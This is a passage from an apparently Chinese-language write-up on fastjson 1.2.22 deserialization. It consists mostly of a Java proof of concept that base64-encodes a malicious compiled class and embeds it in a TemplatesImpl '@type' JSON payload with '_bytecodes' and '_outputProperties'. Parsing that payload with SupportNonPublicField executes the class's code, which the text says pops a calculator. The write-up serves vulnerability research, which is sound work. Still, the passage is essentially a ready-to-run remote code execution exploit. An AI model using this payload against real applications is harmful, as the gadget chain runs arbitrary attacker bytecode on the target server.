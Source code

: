 其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：


```java
package ka1n4t.poc;

import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class vulApp1 {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }

        String result = Base64.encodeBase64String(bos.toByteArray());

        return result;
    }

    public static void bad_method() {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
        String evil_code = readClass(evil_path);

        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
    }

    public static void main(String args[]) {
        bad_method();
    }

}
```
